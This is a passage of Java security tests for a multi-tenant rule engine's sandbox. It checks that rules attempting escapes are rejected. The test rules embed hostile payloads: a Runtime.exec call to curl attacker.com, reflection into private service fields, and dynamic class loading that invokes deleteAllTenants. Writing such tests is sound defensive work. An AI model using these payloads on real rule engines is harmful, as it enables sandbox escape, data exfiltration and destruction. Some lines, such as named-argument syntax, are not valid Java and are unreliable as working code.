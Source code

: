 ```java

    assertThrows(SecurityException.class, () ->
        ruleEngine.compileAndEvaluate(maliciousRule));
}

@Test
public void testRuleCannotExecuteSystemCommands() {
    String maliciousRule = """
        rule "Exec Command"
        when $span: Span()
        then
            Runtime.getRuntime().exec("curl attacker.com");
        end
        """;

    assertThrows(SecurityException.class, () ->
        ruleEngine.compileAndEvaluate(maliciousRule));
}

@Test
public void testRuleCannotAccessOtherTenantData() {
    // Set context for tenant A
    SafeRuleCapabilities.setContext("tenant-a", "trace-1", "rule-1");

    // Rule tries to create signal for tenant B
    assertThrows(SecurityException.class, () ->
        capabilities.createSignal("rule-1", "Evil Rule", Map.of("tenantId", "tenant-b")));

    // Verify violation recorded in TigerBeetle
    List<TBTransfer> violations = tbClient.getAccountTransfers(
        ruleAccountId, filterByCode: 7, filterBySeverity: CRITICAL);
    assertEquals(1, violations.size());
}

@Test
public void testRuleCannotReflectToAccessServices() {
    String maliciousRule = """
        rule "Reflection Attack"
        when $span: Span()
        then
            capabilities.getClass().getDeclaredField("signalService")
                .setAccessible(true).get(capabilities);
        end
        """;

    assertThrows(SecurityException.class, () ->
        ruleEngine.compileAndEvaluate(maliciousRule));
}

@Test
public void testRuleCannotLoadArbitraryClasses() {
    String maliciousRule = """
        rule "ClassLoader Attack"
        when $span: Span()
        then
            Class.forName("com.fluo.services.TenantService")
                .getMethod("deleteAllTenants").invoke(null);
        end
        """;

    assertThrows(SecurityException.class, () ->
        ruleEngine.compileAndEvaluate(maliciousRule));
}
```